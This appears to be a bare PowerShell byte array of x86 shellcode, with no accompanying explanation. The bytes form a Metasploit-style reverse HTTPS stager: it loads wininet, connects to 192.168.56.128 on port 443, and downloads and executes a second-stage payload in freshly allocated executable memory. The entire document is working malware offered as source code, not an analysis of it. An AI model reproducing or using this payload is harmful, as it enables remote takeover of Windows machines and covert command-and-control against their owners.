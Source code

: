 [Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x6e,0x65,0x74,0x0,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x3,0x53,0x53,0x68,0xbb,0x1,0x0,0x0,0xe8,0x8d,0x1,0x0,0x0,0x2f,0x4d,0x46,0x55,0x4f,0x68,0x41,0x61,0x5f,0x64,0x75,0x51,0x66,0x51,0x68,0x35,0x44,0x52,0x72,0x44,0x4e,0x6f,0x77,0x42,0x41,0x63,0x36,0x34,0x6c,0x4a,0x41,0x59,0x5a,0x61,0x47,0x58,0x76,0x63,0x36,0x49,0x53,0x65,0x30,0x35,0x42,0x71,0x70,0x4a,0x33,0x42,0x59,0x65,0x5f,0x68,0x44,0x32,0x4c,0x35,0x78,0x36,0x49,0x4e,0x77,0x45,0x76,0x68,0x4b,0x52,0x4b,0x41,0x67,0x59,0x42,0x6a,0x33,0x75,0x31,0x38,0x6f,0x54,0x6a,0x39,0x76,0x45,0x63,0x7a,0x52,0x51,0x4e,0x7a,0x6f,0x4c,0x2d,0x70,0x52,0x4f,0x49,0x32,0x4f,0x57,0x45,0x76,0x58,0x74,0x48,0x46,0x33,0x79,0x41,0x6c,0x77,0x5f,0x4c,0x6c,0x30,0x76,0x76,0x42,0x4f,0x6b,0x69,0x74,0x4e,0x41,0x4e,0x47,0x6b,0x69,0x50,0x50,0x52,0x66,0x70,0x6b,0x33,0x6d,0x42,0x44,0x47,0x33,0x34,0x51,0x4c,0x64,0x2d,0x4d,0x73,0x48,0x47,0x4d,0x56,0x4a,0x68,0x45,0x6c,0x79,0x72,0x78,0x79,0x62,0x6f,0x6b,0x6d,0x4b,0x45,0x5a,0x65,0x58,0x4d,0x6a,0x45,0x4c,0x76,0x7a,0x69,0x74,0x36,0x53,0x4b,0x79,0x63,0x5f,0x77,0x47,0x64,0x5f,0x61,0x54,0x35,0x6c,0x53,0x31,0x5f,0x75,0x76,0x54,0x6c,0x6a,0x52,0x6c,0x38,0x70,0x43,0x74,0x6e,0x45,0x7a,0x38,0x67,0x56,0x5a,0x71,0x5a,0x55,0x7a,0x34,0x50,0x43,0x57,0x4c,0x57,0x42,0x43,0x30,0x55,0x38,0x71,0x45,0x5a,0x38,0x35,0x64,0x75,0x6d,0x6f,0x74,0x62,0x6f,0x70,0x41,0x2d,0x69,0x37,0x5f,0x31,0x32,0x6d,0x48,0x6e,0x4c,0x6b,0x44,0x4c,0x0,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x32,0xe0,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x68,0x80,0x33,0x0,0x0,0x89,0xe0,0x6a,0x4,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x4b,0x0,0x0,0x0,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x35,0x36,0x2e,0x31,0x32,0x38,0x0,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5
